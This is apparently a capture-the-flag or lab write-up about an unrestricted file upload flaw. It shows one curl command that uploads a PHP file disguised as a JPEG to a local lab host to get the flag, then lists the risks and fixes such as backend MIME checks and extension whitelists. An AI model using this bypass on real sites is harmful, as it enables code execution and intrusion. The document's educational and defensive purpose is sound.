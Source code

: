 ## Location :
Page upload (add image)

## Type of Vulnerability :
Unrestriced file upload

## Explanation
It is possible to send a php file to execute a script, forcing the MIME type with a curl command so that the site thinks it's an image
``curl -X POST 'http://192.168.31.217/?page=upload' -F 'uploaded=@/home/jbertin/Desktop/test.php;type=image/jpeg' -F 'Upload=Upload'``
-> We get the flag

## Risks
- Upload of malicious code
- Execution of malicious code
- Opening to certain types of DoS (Denial of Service) attacks
- Privilege escalation

## How to Fix
- Backend validation, particularly on the actual MIME type.
- Whitelist of authorized file extensions
- Placement of uploaded files in a directory not accessible from the internet
- Automatic renaming of files at the time of their registration (to avoid any conflict and unwanted replacement)
- Limit the size of files
